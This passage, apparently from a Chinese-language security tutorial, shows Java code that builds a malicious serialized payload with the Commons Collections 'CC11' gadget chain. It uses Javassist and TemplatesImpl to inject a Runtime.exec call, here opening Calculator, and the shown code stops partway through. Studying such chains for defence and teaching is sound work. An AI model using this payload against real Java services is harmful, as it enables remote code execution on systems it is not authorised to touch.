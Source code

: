 这里通过前面我们学习的`CommonsCollections11`链子生成恶意文件
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
```